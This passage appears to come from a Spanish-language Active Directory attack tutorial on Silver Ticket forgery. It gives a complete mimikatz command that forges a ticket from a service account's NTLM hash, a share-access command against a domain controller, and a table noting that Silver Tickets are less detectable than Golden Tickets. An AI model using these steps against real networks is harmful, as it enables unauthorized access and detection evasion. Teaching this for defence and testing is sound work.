 ```cmd
dir \\dc.hack.local\c$
```

¡Acceso completo! Aunque no tengas la contraseña real.

---

### 🛠️ Ejemplo completo: Silver Ticket

#### 🔍 ¿Qué necesitas?

- Nombre del dominio y SID
- Nombre del **servicio SPN** (ej: `cifs/dc.hack.local`)
- Hash NTLM del servicio (no de `krbtgt`, sino del **cuenta de servicio** como `svc-sql` o `computer$`)

Supón:

- Servicio: `cifs/dc.hack.local`
- Cuenta de servicio: `dc$`
- Hash NTLM: `aabbccddeeff00112233445566778899`

---

#### 🔐 Crear Silver Ticket

```mimikatz
kerberos::golden /user:gustavo /domain:hack.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /target:cifs/dc.hack.local /rc4:aabbccddeeff00112233445566778899 /service:cifs /ptt
```

✔️ Verifica:

```cmd
klist
```

Ahora puedes conectarte solo al servicio `cifs` del servidor `dc`.

---

### 🧠 Diferencias clave

|                 | Golden Ticket            | Silver Ticket       |
| --------------- | ------------------------ | ------------------- |
| Tipo de ticket  | TGT                      | TGS                 |
| Se falsifica... | krbtgt                   | Cuenta de servicio  |
| Alcance         | Acceso a todo el dominio | Acceso a 1 servicio |
| Detectabilidad  | Más detectable (logs DC) | Menos detectable    |
| Herramienta     | Mimikatz                 | Mimikatz            |

---
